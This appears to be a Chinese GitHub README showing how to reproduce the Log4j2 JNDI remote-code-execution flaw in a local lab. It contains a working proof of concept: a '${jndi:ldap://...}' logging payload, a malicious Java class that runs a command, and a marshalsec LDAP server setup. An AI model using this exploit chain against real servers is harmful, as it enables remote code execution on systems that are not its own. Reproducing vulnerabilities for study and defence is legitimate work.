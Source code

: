 # Log4j2漏洞测试

> [Java后端 别中招！手把手教你复现 Log4j2 漏洞](https://mp.weixin.qq.com/s/Vsej-hxa8O12UVNEA8x2MQ)

1. 简介

Apache Log4j2是一个开源的Java日志框架，被广泛地应用在中间件、开发框架与Web应用中。

2. 漏洞概述

该漏洞是由于Apache Log4j2某些功能存在递归解析功能，未经身份验证的攻击者通过发送特定恶意数据包，可在目标服务器上执行任意代码。

3. 影响范围

Apache Log4j 2.x <= 2.15.0-rc1

4. 环境搭建

   1、创建一个新的maven项目，并导入Log4j的依赖包

   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.14.1</version>
   </dependency>
   ```

## 漏洞利用

1. 使用POC测试

   ```java
   import org.apache.logging.log4j.LogManager;
   import org.apache.logging.log4j.Logger;
   
   /**
    * @author cr
    * @date 2021/12/20 14:39
    */
   public class LogTest {
       public static final Logger logger = LogManager.getLogger();
   
       public static void main(String[] args) {
           logger.error("${jndi:ldap://localhost:8888/Exploit}");
       }
   }
   ```

2. 编译一恶意类[Exploit.class](https://github.com/a893206/log4j2-test/blob/main/src/test/java/Exploit.class)

   新建Exploit.java，然后编译为class文件

   ```java
   /**
    * @author cr
    * @date 2021/12/20 14:40
    */
   public class Exploit {
       static {
           System.err.println("Pwned");
           try {
               String osName = System.getProperty("os.name");
               String command = "";
               switch (osName) {
                   case "Mac OS X":
                       command = "open /System/Applications/Calculator.app";
                       break;
                   case "Windows":
                       command = "calc";
                       break;
                   default:
               }
               Runtime.getRuntime().exec(command);
           } catch ( Exception e ) {
               e.printStackTrace();
           }
       }
   }
   ```

   ```bash
   javac Exploit.java
   ```

3. 使用[marshalsec-0.0.3-SNAPSHOT-all.jar](https://github.com/a893206/log4j2-test/blob/main/src/test/java/marshalsec-0.0.3-SNAPSHOT-all.jar)本地开启一个LDAP服务

   [ldap.sh](https://github.com/a893206/log4j2-test/blob/main/src/test/java/ldap.sh)

   ```bash
   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer
   "http://127.0.0.1:7777/#Exploit" 8888
   ```

4. 运行[LogTest.java](https://github.com/a893206/log4j2-test/blob/main/src/test/java/LogTest.java)，即可访问恶意类并执行写在其中的命令

